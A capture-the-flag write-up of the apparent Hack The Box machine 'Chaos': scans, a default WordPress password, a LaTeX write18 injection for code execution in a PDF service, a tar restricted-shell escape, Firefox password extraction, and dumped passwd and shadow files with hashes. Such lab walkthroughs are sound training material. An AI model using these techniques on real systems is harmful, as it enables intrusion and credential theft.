# Credentials

|user|password|note|
|----|-----|-----|
|human|human|Wordpress-unlock-post|
|ayush|jiujitsu|Creds for webmail|
|root|Thiv8wrej~|Root credentials|
|user.txt|eef39126d9c3b4b8a30286970dc713e1|user flag|
|root.txt|4eca7e09e3520e020884563cfbabbc70|root flag|

# NMAP

## Tcp

Basic nmap scan.

```sql
# Nmap 7.91 scan initiated Sun May 16 19:10:59 2021 as: nmap -sC -sV -oA nmap/chaos 10.10.10.120
Nmap scan report for 10.10.10.120
Host is up (0.037s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: SASL PIPELINING STLS CAPA UIDL RESP-CODES AUTH-RESP-CODE TOP
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: listed have capabilities IMAP4rev1 more LOGINDISABLEDA0001 post-login LOGIN-REFERRALS SASL-IR STARTTLS IDLE OK Pre-login ID LITERAL+ ENABLE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: listed have capabilities IMAP4rev1 AUTH=PLAINA0001 more LOGIN-REFERRALS post-login IDLE ID OK Pre-login SASL-IR LITERAL+ ENABLE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
995/tcp   open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: USER PIPELINING SASL(PLAIN) CAPA UIDL RESP-CODES AUTH-RESP-CODE TOP
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 16 19:11:43 2021 -- 1 IP address (1 host up) scanned in 44.30 seconds
```

# Gobuster

## Http (80)

We can find `/wp` directory thanks to gobuster command.
It's a  `wordpress CMS` ?

```bash
$ gobuster dir -u http://chaos/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak -o gobuster-root.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://chaos/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
2021/05/16 19:24:37 Starting gobuster in directory enumeration mode
===============================================================
/wp                   (Status: 301) [Size: 295] [--> http://chaos/wp/]
/javascript           (Status: 301) [Size: 303] [--> http://chaos/javascript/]
```

# HTTP (80)

We can find an other folder `wordpress` on `/wp` directory.



http://chaos/wp/wordpress/

# Wordpress

## Wpscan

Let's run `wpscan` to enumerate `plugins, theme and users` installed on the CMS.

```sql
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://chaos/wp/wordpress/ [10.10.10.120]
[+] Started: Sun May 16 19:30:22 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.34 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://chaos/wp/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://chaos/wp/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://chaos/wp/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://chaos/wp/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.8'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://chaos/wp/wordpress/, Match: 'WordPress 4.9.8'

[i] The main theme could not be detected.


[i] No plugins Found.


[i] Theme(s) Identified:

[+] twentyfifteen
 | Location: http://chaos/wp/wordpress/wp-content/themes/twentyfifteen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://chaos/wp/wordpress/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://chaos/wp/wordpress/wp-content/themes/twentyfifteen/style.css
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://chaos/wp/wordpress/wp-content/themes/twentyfifteen/, status: 500
 |
 | Version: 2.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://chaos/wp/wordpress/wp-content/themes/twentyfifteen/style.css, Match: 'Version: 2.0'

[+] twentyseventeen
 | Location: http://chaos/wp/wordpress/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-04-27T00:00:00.000Z
 | Readme: http://chaos/wp/wordpress/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://chaos/wp/wordpress/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://chaos/wp/wordpress/wp-content/themes/twentyseventeen/, status: 500
 |
 | Version: 1.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://chaos/wp/wordpress/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 1.7'

[+] twentysixteen
 | Location: http://chaos/wp/wordpress/wp-content/themes/twentysixteen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://chaos/wp/wordpress/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 2.4
 | Style URL: http://chaos/wp/wordpress/wp-content/themes/twentysixteen/style.css
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://chaos/wp/wordpress/wp-content/themes/twentysixteen/, status: 500
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://chaos/wp/wordpress/wp-content/themes/twentysixteen/style.css, Match: 'Version: 1.5'


[i] User(s) Identified:

[+] human
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun May 16 19:33:26 2021
[+] Requests Done: 22472
[+] Cached Requests: 34
[+] Data Sent: 5.997 MB
[+] Data Received: 3.411 MB
[+] Memory used: 275.707 MB
[+] Elapsed time: 00:03:04
```

We can find the `human` user.
On the Wordpress, we have a secure post. He's lock with a `password` : http://10.10.10.120/wp/wordpress/index.php/2018/10/28/chaos/



Let's try `default passwords` to unlock this post. A password match : `human` !
So, we have a `human` user and a `human` password.



The secure post hide credentials about a `mail account`.

# Mail

## Claws Mail

We can setup a `mail client` (Claws Mail or Thunderbind for example).



We have a mail on the `draft` directory.



We have 2 attachment on the draft mail. `msg.txt` seems to be an encrypt message and the `python program` a tool to encrypt messages.



Let's download attachments.

# Attachments

We can find an online tool to decode the message : https://github.com/happygirlzt/Cryptography/blob/master/encrypt.py

```python
#!/usr/bin/env python3

# Knowledge:
# AES: Advanced Encryption Standard
# Symmetric Cipher
# 16 byte block size: each part of the encrypted data is
# encrypted 16 bytes, it must be full, so padding is required.
# The keys can be 128, 192 or 256 bits long
# IV: stands for initialization vector

import os
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto import Random

def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = filename + "_enc"
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV = Random.new().read(16)

    encryptor = AES.new(key, AES.MODE_CBC, IV)

    with open(filename, 'rb') as infile:
        with open(outputFile, 'wb') as outfile:
            outfile.write(filesize.encode('utf-8'))
            outfile.write(IV)

            while True:
                chunk = infile.read(chunksize)

                if len(chunk) == 0:
                    break
                elif len(chunk) % 16 != 0:
                    chunk += b' ' * (16 - (len(chunk) % 16))

                outfile.write(encryptor.encrypt(chunk))

def decrypt(key, filename):
    chunksize = 64*1024
    outputFile = filename + "_dec"

    with open(filename, 'rb') as infile:
        filesize = int(infile.read(16))
        IV = infile.read(16)

        decryptor = AES.new(key, AES.MODE_CBC, IV)

        with open(outputFile, 'wb') as outfile:
            while True:
                chunk = infile.read(chunksize)

                if len(chunk) == 0:
                    break

                outfile.write(decryptor.decrypt(chunk))
            outfile.truncate(filesize)

def getKey(password):
    hasher = SHA256.new(password.encode('utf-8'))
    return hasher.digest()

def Main():
    choice = input("Would you like to (E)ncrypt of (D)ecrypt?: ").upper()

    if choice == 'E':
        filename = input("File to encrypt: ")
        password = input("Password: ")
        encrypt(getKey(password), filename)
        print("Done.")

    elif choice == 'D':
        filename = input("File to decrypt: ")
        password = input("Password: ")
        decrypt(getKey(password), filename)
        print("Done.")

    else:
        print("No option selected, closing...")

if __name__ == "__main__":
    Main()
```

Let's run it.

```sql
$ python3 decrypt.py 
Would you like to (E)ncrypt of (D)ecrypt?: D
File to decrypt: msg.txt
Password: sahay
Done.
```

And show the message. He is encoded in `base64` format. I'm using `CyberChef` to decode the message : https://gchq.github.io/CyberChef/

```sql
$ cat msg.txt_dec 
SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
```



We find a `pdf` generator page in construction...

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

# PDF Service

The `PDF service` is easy to use.



If we intercept the request, we can show an error with `pdfTeX Version 3.14`.



Only the `second template` works and creates pdf. We can inject this payload on the content to get an `RCE exploit` :  `\immediate\write18{command}`





# Shell

We can try the previous credentials used for `ayush mail`.

```bash
$ su ayush
Password: jiujitsu
ayush@chaos:/home$
```

Ayush has a `restricted shell`, but he can run the `tar` command. We can spawn a shell with this command : https://gtfobins.github.io/gtfobins/tar/

```bash
$ ls
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
$ tar cf /dev/null rick.tar --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

Upgrade the `PATH`...

```bash
ayush@chaos:/home$ export PATH=/bin:$PATH
ayush@chaos:/home$ export PATH=/usr/bin:$PATH
ayush@chaos:/home$ id
uid=1001(ayush) gid=1001(ayush) groups=1001(ayush)
```

Looking the `ayush home`, we can find a `.mozilla` directory.

```bash
$ ls -la
total 40
drwx------ 6 ayush ayush 4096 May 16 19:11 .
drwxr-xr-x 4 root  root  4096 Oct 28  2018 ..
drwxr-xr-x 2 root  root  4096 Oct 28  2018 .app
-rw------- 1 root  root     0 Nov 24  2018 .bash_history
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 May 16 19:11 .gnupg
drwx------ 3 ayush ayush 4096 May 16 19:38 mail
drwx------ 4 ayush ayush 4096 Sep 29  2018 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 28  2018 user.txt
```

# Escalation

I'm using `firefox decrypt` to find password stocked on firefox : https://github.com/unode/firefox_decrypt

```bash
$ python3 firefox_decrypt.py ../firefox/

Master Password for profile ../firefox/bzo7sjt1.default: jiujitsu

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

And... We are root.

```bash
ayush@chaos:~/.mozilla$ su root
Password: Thiv8wrej~
root@chaos:/home/ayush/.mozilla# id
uid=0(root) gid=0(root) groups=0(root)
```

# Passwd file

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
syslog:x:103:108::/home/syslog:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:105:109::/nonexistent:/usr/sbin/nologin
uuidd:x:106:111::/run/uuidd:/usr/sbin/nologin
landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:108:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:998:998:systemd Core Dumper:/:/sbin/nologin
sahay:x:1000:1000:choas:/home/sahay:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:110:115:MySQL Server,,,:/nonexistent:/bin/false
ayush:x:1001:1001:,,,:/home/ayush:/opt/rbash
postfix:x:111:116::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:112:118:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:113:119:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
```

b# Shadow file

```bash
root:$6$TlI4HOm1$4hR2IH0nEeQK6S5yiRsVwU5MQhWUumija831.AtAYM64UNq65.ukJQLBTJsRzVEX09zsdqIqTb6DRgWBqli4A0:17832:0:99999:7:::
daemon:*:17821:0:99999:7:::
bin:*:17821:0:99999:7:::
sys:*:17821:0:99999:7:::
sync:*:17821:0:99999:7:::
games:*:17821:0:99999:7:::
man:*:17821:0:99999:7:::
lp:*:17821:0:99999:7:::
mail:*:17821:0:99999:7:::
news:*:17821:0:99999:7:::
uucp:*:17821:0:99999:7:::
proxy:*:17821:0:99999:7:::
www-data:*:17821:0:99999:7:::
backup:*:17821:0:99999:7:::
list:*:17821:0:99999:7:::
irc:*:17821:0:99999:7:::
gnats:*:17821:0:99999:7:::
nobody:*:17821:0:99999:7:::
systemd-timesync:*:17821:0:99999:7:::
systemd-network:*:17821:0:99999:7:::
systemd-resolve:*:17821:0:99999:7:::
syslog:*:17821:0:99999:7:::
_apt:*:17821:0:99999:7:::
messagebus:*:17821:0:99999:7:::
uuidd:*:17821:0:99999:7:::
landscape:*:17821:0:99999:7:::
pollinate:*:17821:0:99999:7:::
systemd-coredump:!!:17832::::::
sahay:$6$IpuwMt5q$LPxEbGXXDF2Y8I1c.yJS//MjMRaQj8yAiRY8BIOmQLtQo8caaY6F4b6jppmW9VbHyalMuQmvriosLmH4HbCKE/:17832:0:99999:7:::
lxd:!:17832::::::
mysql:!:17832:0:99999:7:::
ayush:$6$qhq3miwQ$RdnRad8ckLdhOd0xL1DWbplGCRT84g0da12rhETrDUoeb4yQadG/qqxfQocfmOwS9pIkz.P9DfP7RcnWUX9ik0:17832:0:99999:7:::
postfix:*:17832:0:99999:7:::
dovecot:*:17832:0:99999:7:::
dovenull:*:17832:0:99999:7:::
```
